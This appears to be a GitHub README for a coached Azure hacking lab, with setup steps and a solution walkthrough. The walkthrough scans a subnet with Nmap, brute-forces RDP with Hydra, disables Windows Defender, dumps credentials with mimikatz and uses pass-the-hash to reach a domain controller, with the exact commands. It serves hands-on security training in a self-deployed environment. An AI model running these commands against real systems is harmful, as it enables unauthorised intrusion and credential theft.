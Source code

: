 # Hacking-Game-Coach

## Setup instructions

1. Download files from the Setup folder 

2. Start Azure CloudShell

3. Upload to CloudShell the files downloaded from Setup folder 

4. If you have many subscriptions, set the subscription where you are going to deploy the environment. for this, you can use the cmd "AZ-SetContext".
    
    ```powershell
    Set-AzContext -SubscriptionId "79c2a240-1a7f-482f-a315-xxxxxxxxx"
    ```

    >**Warning**: **You have to be sure the Auto-provisioning of Defender for Server is not enabled on your subscription**

5. Run the script deploy.ps1
  
   >**Note**: Don't worry about Warning messages

6. Once the deployment is done, share with attendees information about hack-vm that you get on the output section:
    - IPAddress
    - Login
    - Password 

## Solution

1. Connect to the hack-vm using RDP. Your coach will provide you with the Public IP address and credentials.

2. Use a tool from the toolbox to discover the private IP address of the workstation-vm.
    
    a. Download and install Nmap from "https://nmap.org/download.html"
    
    b. run Nmap to scan the local network of hack-vm 10.0.0.0/24
    
    c. In the result you can see that the port rdp 3389 is open on the vm 10.0.0.100
    
    ![nmap](./images/nmap.jpg)
 
3. Use a tool from the toolbox to find the login and password that will allow you to connect to the workstation-vm using RDP.

    a. Download Hydra application from https://github.com/maaaaz/thc-hydra-windows

    b. Download username.txt and password.txt files 

    c. Using Hydra application run a brut force attack on rdp port of the vm 10.0.0.100.         
  
      ```powershell
    .\hydra.exe -t 4 -V -f -L .\username.txt -P .\password.txt rdp://10.0.0.100
    ```
                   
  d. After some attempt, the application will stop and you can see, the login and the password that have worked
    - Login: johnson
    - Password: P@ssw0rd1984
    
     ![nmap](./images/hydra.jpg)
  
4. Connect to the workstation-vm using RDP and the login and password found in step 3.

5. Discover the IP address of the domain controller.  

    ```cmd
      nslookup
      > set type=all
      > _ldap._tcp.dc._msdcs.contoso.com
    ```
    
     ![dc](./images/dc.jpg)
    
    >**Note**: You can help attendees with this link https://support.avigilon.com/s/article/Windows-How-to-Get-the-IP-Port-Used-and-IP-Addresses-of-Domain-Controllers-AD-Servers?language=en_US

6. Use a tool from the toolbox, (a) to find the login and password hash of the Domain Admin then (b) to connect to the domain controller using RDP.

    a. Disable "Real-time Protection", "Cloud-delivered protection" and "Automatic sample submission" in Windows Security
    
    ![win-sec](./images/windows-security.jpg)
    
    b. Download mimikatz application from https://github.com/ParrotSec/mimikatz
    
    c. Run Mimikatz, then run the following commands:
    
    ```powershell
   .\mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```
    
     ![mimikatz](./images/mimikatz.jpg)
     
    d. Find the password hash of the domain Admin "dcadmin"
    
    e. Run this command in Mimikatz to connect to Domain controller using RDP
    
    ```powershell
    sekurlsa::pth /user:dcadmin /domain:contoso /ntlm:95771f22bc8fe09f0cb74443495bb587 /run:"mstsc.exe /restrictedadmin"
    ```
    
    f. Introduce the IP address of the domain controller "10.0.1.250" in Computer parameter on MSTC application 
    
    ![win-sec](./images/mstc.jpg)

>**Note**: Don't modify the "user name" parameter

## Clean 

1. Run the script delete.ps1
